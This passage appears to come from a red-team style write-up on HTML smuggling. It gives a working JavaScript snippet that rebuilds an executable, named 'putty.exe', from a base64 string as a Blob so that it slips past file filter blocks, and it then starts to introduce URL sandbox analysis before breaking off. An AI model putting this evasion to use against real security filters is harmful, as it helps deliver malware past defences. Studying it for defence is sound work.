 ## Example: Bypassing File Filter Blocks with Blobs

Let's take Putty as an example. If we try to download it from a URL, and the
URL ends with
.exe , the FFB will block the request and prevent you from downloading it.

![image](https://github.com/user-attachments/assets/61905d8a-50bf-4b70-82e2-7cbc39a45a64)


Here’s a sample script to bypass file filter blocks using JavaScript:

```html
<script>
    function downloadFromBase64() {
        const base64String = "BASE64_STRING_HERE";
        const fileName = "putty.exe";
        const byteCharacters = atob(base64String);
        const byteNumbers = new Array(byteCharacters.length)
            .fill(0)
            .map((_, i) => byteCharacters.charCodeAt(i));
        const byteArray = new Uint8Array(byteNumbers);
        const blob = new Blob([byteArray]);
        const link = document.createElement("a");
        link.href = URL.createObjectURL(blob);
        link.download = fileName;
        link.click();
        URL.revokeObjectURL(link.href);
    }
</script>
```

![image](https://github.com/user-attachments/assets/b5b44c26-7a08-4f76-b666-a7b273da290c)

As you can see, we managed to bypass FFB as well. However, there’s always a
"but." If you’ve reached this point, it means you have successfully bypassed
Sandbox checks. Let’s step back and discuss how we can bypass it using some
techniques.

---

## Sandbox for Analysis of URLs

A sandbox is an isolated environment used to analyze URLs, files, or other
digital artifacts safely without risking the security of the host system. It's used
to detect malicious activity, evaluate potential threats, or test unknown software
in a controlled manner.
When applied to URL analysis, a sandbox performs two types of examination:


### Static Analysis
Static analysis involves evaluating the URL's components and associated
metadata to identify malicious intent without executing any code or visiting the
site. 
Key elements include:

